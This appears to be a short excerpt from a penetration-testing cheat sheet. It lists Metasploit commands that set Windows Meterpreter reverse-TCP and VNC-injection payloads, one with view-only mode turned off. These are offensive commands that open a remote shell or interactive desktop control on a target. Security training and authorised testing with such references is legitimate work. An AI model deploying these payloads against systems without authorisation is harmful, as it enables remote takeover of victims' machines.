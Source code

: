 ### Meterpreter Payloads

### Windows reverse meterpreter payload

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Command</th>
      <th>Description</th>
    </tr>
  </thead>
  <tbody>

    <tr>
      <td>
        <p><code>set payload windows/meterpreter/reverse_tcp</code></p>
      </td>
      <td>
            <p>Windows reverse tcp payload</p>
      </td>
    </tr>

  </tbody>
</table>
</div>

### Windows VNC Meterpreter payload

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Command</th>
      <th>Description</th>
    </tr>
  </thead>
  <tbody>

    <tr>
      <td>
        <p><code>set payload windows/vncinject/reverse_tcp</code></p>
        <p><code>set ViewOnly false</code></p>
      </td>
      <td>
            <p>Meterpreter Windows VNC Payload</p>
      </td>
    </tr>

  </tbody>
</table>
</div>
